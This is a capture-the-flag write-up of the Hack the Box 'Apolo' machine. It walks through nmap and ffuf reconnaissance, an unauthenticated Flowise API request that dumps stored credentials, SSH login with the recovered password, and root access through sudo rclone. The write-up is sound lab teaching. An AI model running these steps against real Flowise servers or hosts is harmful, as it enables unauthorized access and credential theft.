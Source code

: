 # Apolo

Apolo is the first of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

A full pwn challenge is composed of two flags that we have to find in order to complete it, the first one being the user flag and the second one being the root flag. We are given the ip address of a machine / box and we have to first get a RCE on the machine in order to have the user flag, and then privesc in order to get the root flag. 
## Reconnaissance 

```
Nmap scan report for apolo.htb (10.129.242.73)

Host is up (0.015s latency).

rDNS record for 10.129.242.73: apolo.htb

Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)+

| ssh-hostkey: 

|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)

|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)

|_  256 189d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)

|_http-title: Flowise - Low-code LLM apps builder

|_http-server-header: nginx/1.18.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_ker

```

We also check for vhost using ffuf : 

`ffuf -c -w /user/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "[http://$target/](about:blank)" -H "Host: FUZZ.$TARGET" -fc 301`

And we get a hit on a subdomain : `ai.apolo.htb`

Let’s add these two entries in our `/etc/hosts` and enumerate the two hosts : 
```
10.129.242.73 apolo.htb
10.129.242.73 ai.apolo.htb
```
  
The first webpage `apolo.htb` is just a full static website with nothing interesting, our directory fuzzing wasn’t very concluding so we decided to check the other vhost. 

Upon accessing `ai.apolo.htb` we are prompted with a login form for a flowiseai  instance. 

![Login form](/HTB-UNIVERSITY-2024/FullPwn/images/login_form.png)

Checking the version number of the flowingAI instance revealed that it was vulnerable to this CVE : [https://www.exploit-db.com/exploits/52001](https://www.exploit-db.com/exploits/52001)

After using the POC on the website we can confirm that it's indeed vulnerable
 
```
curl [http://ai.apolo.htb/Api/v1/credentials](http://ai.apolo.htb/Api/v1/credentials) [{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}`
```
## User flag

So we can now `curl [http://ai.apolo.htb/Api/v1/credentials6cfda83a-b055-4fd8-a040-57e5f1dae2eb](http://ai.apolo.htb/Api/v1/credentials6cfda83a-b055-4fd8-a040-57e5f1dae2eb)`

And retrieve some credentials : 

```
Username: lewis

Password: C0mpl3xi3Ty!_W1n3

Cluster: cluster0.mongodb.net

Database: myDatabase
```

We could then login onto the flowiseAI instance we thought we had to RCE from there, but a teammate of us pointed out that these credentials could be used to authenticate on the server using SSH. 

![ssh_login](/HTB-UNIVERSITY-2024/FullPwn/images/ssh_login.png)

And voilà : we have our user.flag in the usual location (/home/lewis/user.txt)

 ![user_flag](/HTB-UNIVERSITY-2024/FullPwn/images/user_flag.png)
 
## Root flag

Now that we have a shell on the box, let’s check out what our user can execute on the machine : 

![sudo_L](/HTB-UNIVERSITY-2024/FullPwn/images/sudo_L.png)

We are allowed to execute /usr/bin/rclone with sudo permissions on the machine. 

When checking out the man and help page of the rclone command we have : 

`Rclone  is a command-line program to manage files on cloud storage.  It is a feature-rich alternative to cloud vendors web storage interfaces.`

![rclone](/HTB-UNIVERSITY-2024/FullPwn/images/rclone.png)

We can execute cat through rclone, and since we can execute rclone with root priviledges, we can simply : 

![rootflag](/HTB-UNIVERSITY-2024/FullPwn/images/rootflag.png)
